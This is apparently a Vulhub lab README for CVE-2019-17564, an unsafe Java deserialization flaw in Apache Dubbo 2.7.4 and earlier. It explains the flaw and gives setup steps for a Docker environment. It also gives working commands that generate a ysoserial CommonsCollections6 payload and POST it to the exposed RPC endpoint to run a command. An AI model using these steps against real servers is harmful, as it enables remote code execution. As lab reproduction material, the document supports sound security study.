


# Apache Dubbo Unsafe Java Deserialization (CVE-2019-17564)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance Java RPC framework.

Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`.

A Spring Framework security warning explains that `HttpInvokerServiceExporter` performs unsafe Java deserialization, which can lead to remote code execution:

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

This vulnerability affects Apache Dubbo 2.7.4 and earlier. Starting in Apache Dubbo 2.7.5, Dubbo replaced `HttpInvokerServiceExporter` with `com.googlecode.jsonrpc4j.JsonRpcServer`.

References:

- <https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html>
- <https://www.anquanke.com/post/id/198747>
- <https://paper.seebug.org/1128/>

## Environment Setup

Start an Apache Dubbo 2.7.3 Provider by executing the following command:

```
docker compose up -d
```

After the service starts, browse to `http://your-ip:8080` and the server will return an empty 500 error page by default. This environment uses `N/A` as the registry address, so ZooKeeper or other registry services are not required.

## Vulnerability Reproduction

It is important to know the RPC interface name before leveraging this vulnerability. In this Vulhub environment, the exposed RPC interface is `org.vulhub.api.CalcService`. Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a `CommonsCollections6` payload, then send it to `http://your-ip:8080/org.vulhub.api.CalcService` as the POST body:

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```



After sending the payload, enter the provider container and verify that `touch /tmp/success` has been executed successfully:

```
docker compose exec provider ls -l /tmp/success
```


